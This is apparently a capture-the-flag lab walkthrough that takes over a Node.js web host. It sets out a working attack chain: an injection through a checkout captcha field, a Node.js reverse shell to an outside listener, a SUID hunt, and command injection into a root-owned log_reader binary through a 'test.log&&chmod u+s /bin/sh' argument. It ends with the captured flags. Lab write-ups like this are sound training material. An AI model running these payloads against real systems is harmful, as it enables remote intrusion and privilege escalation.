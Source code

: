 ```
Running all scans on 192.168.217.250

Host is likely running Unknown OS!

---------------------Starting Port Scan-----------------------

PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

This isn't very descriptive so do a service scan
```
sudo nmap -sV -p22,5000 192.168.217.250
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Node.js (Express middleware)
```

Testing out the given site on port 5000, we find if we add a ' to the captcha that is added when submitting our checkout, we get a syntax error.

Let's see if we can get a reverse shell

Head to RevShells.com

We know it's node.js from our service scan so pick that. 

The first one doesn't give us anything so pick node.js #2.

Copy the revshell it gives you and remove the line returns to put it all on one line

```
(function(){var net = require("net"),cp = require("child_process"),sh = cp.spawn("sh", []);var client = new net.Socket();client.connect(80, "192.168.45.222", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})()
```

Open NC
```
nc -nlvp 80
```

Go back to burpsuite from where you were searching the pages for SQLi and insert the payload
![[Pasted image 20240303004924.png]]

Send it and get the reverse shell
```
└─$ nc -nlvp 80
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.217.250:33590.
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-5.1$ whoami
whoami
observer
```

Search for SUID permissions
```
find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'
```

```
/usr/local/bin/log_reader
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/mount
```

/usr/local/bin/log_reader looks a little off. No information available online via google.

Let's see if the source code that was used to compile it is still on the machine

```
find / -name log_reader.c 2>/dev/null
```

It is at /usr/share/src/log_reader.c

```
bash-5.1$ cat /usr/share/src/log_reader.c
cat /usr/share/src/log_reader.c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {

    if (argc != 2) {
        printf("Usage: %s filename.log\n", argv[0]);
        return 0;
    }

    char *filename = argv[1];
    char *result;
    result = checkExtention(filename, result);

    if (result != NULL) {
        readFile(filename);
    }

    return 0;
}

void checkExtention(char *filename, char *result) {
    char *ext = strchr(filename, '.');

    if (ext != NULL) {
        result = strstr(ext, ".log");
    }
}

void readFile(char *filename) {
    setuid(0);
    setgid(0);

    printf("Reading: %s\n", filename);

    char command[200] = "/usr/bin/cat ";
    char output[10000];
    FILE *result;

    strcat(command, filename);
    result = popen(command, "r");
    fgets(output, sizeof(output), result);
    printf("%s\n", output);
}
```

Looking at this code we can see filename is checked to make sure it has .log but otherwise, it's not sanitized.

Create a dummy file to read

```
bash-5.1$ echo 'hello' > test.log
```

`echo 'hello' > test.log`

See if we can add permissions to sh
```
bash-5.1$ /usr/local/bin/log_reader "test.log&&chmod u+s /bin/sh"
```
`
`/usr/local/bin/log_reader "test.log&&chmod u+s /bin/sh"`
`Reading: test.log&&chmod u+s /bin/sh`
`hello`

```
bash-5.1$ sh -p
sh -p
# whoami
whoami
root
```

Grab the flags
```
# cat /root/proof.txt
cat /root/proof.txt
041ee57a2fc05dd43db1234a185fe334
# cat /home/observer/local.txt
cat /home/observer/local.txt
1334f75c46dde43f65635f721229c7ea
```
